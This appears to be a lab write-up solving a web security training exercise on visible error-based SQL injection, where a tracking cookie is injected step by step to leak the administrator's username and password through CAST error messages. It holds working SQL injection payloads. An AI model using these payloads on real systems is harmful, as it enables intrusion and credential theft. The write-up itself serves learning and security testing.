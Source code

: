 # Visible error-based SQL injection


This lab contains a SQL injection vulnerability.
The application uses a tracking cookie for analytics,
and performs a SQL query containing the value of the submitted cookie.

### The target we will need to focus is TrackID 

End Goals :
* Exploit SQLi , Leak the username & password .
* Login as the administrator user .
------------
Analysis :
1- test that parameters is vulnerable .
# Intercept
open the burp suite catch request and send it to repeater to test possible SQL injections .

```
TrackingId=MTHshxABbU9laks5'
```
 > 500 Internal Error

```
TrackingId=MTHshxABbU9laks5'-- 
```
 > 200 OK

" Confirm that no longer receive an error "

2 -  use SELECT , CAST the returned value to an `int` data type:

```
trackingId=MTHshxABbU9laks5' AND CAST ((SELECT 1) AS int)--
 ```

- error saying that an `AND` condition must be a boolean
- 

3 - Modify the condition, you can simply add a comparison operator (`1=`):

```
TrackingId=MTHshxABbU9laks5' AND 1=CAST((SELECT 1) AS int)--
 ```

- '  valid query  '

## Try to output information from DB:
- " from error output "

4 - The lab give us the table ‘users’ we'll use it 

```
trackingId=MTHshxABbU9laks5' AND 1=CAST((SELECT username FROM users) AS int )--
 ```

## Error : Maximum number of characterso, lets delete the cookie value and see what happen
- new error : more than one row returned

5 - Since too many rows are returned, we can limit it to only 1 username . 

```
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
 ```

- The error message now shows us the username ‘administrator’

6 - now lets try it with password and see if he give us the pass also or not :)

```
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

- yes he did , Leaked the password also.
--------------------------------------------------------------------------
SOLVED THE LAB <3

